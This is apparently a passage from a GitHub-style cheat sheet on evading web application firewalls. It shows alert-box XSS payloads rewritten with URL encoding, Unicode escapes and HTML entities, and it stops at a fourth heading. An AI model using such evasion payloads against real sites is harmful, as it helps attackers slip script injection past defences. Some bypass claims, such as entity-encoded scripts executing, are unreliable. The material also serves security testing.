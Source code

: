 The following is a list of very specific hacking techniques you can use to work around (evade) firewalls, keep in mind that there are about a dozen types of firewalls and these techniques work with a portion of them.

Here’s a detailed explanation for each technique, including how to do it, a basic blocked request, and an updated request that may bypass the WAF:

## 1. URL Encoding Technique

**How to do it:**  
Encode special characters in the payload using URL encoding (percent-encoding) to bypass WAF detection.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with URL encoding:**
```bash
%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E
```

## 2. Unicode Technique

**How to do it:**  
Convert characters in the payload to their Unicode equivalents to evade detection.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with Unicode encoding:**
```bash
\u003Cscript\u003Ealert('XSS')\u003C/script\u003E
```

## 3. HTML Rendering Technique

**How to do it:**  
Use HTML entities to encode characters in the payload, which may render correctly in the browser but evade the WAF.

**Blocked original request:**
```bash
<script>alert('XSS')</script>
```

**Updated with HTML entities:**
```bash
&lt;script&gt;alert(&#x27;XSS&#x27;)&lt;/script&gt;
```

## 4. Mixed Encoding Technique

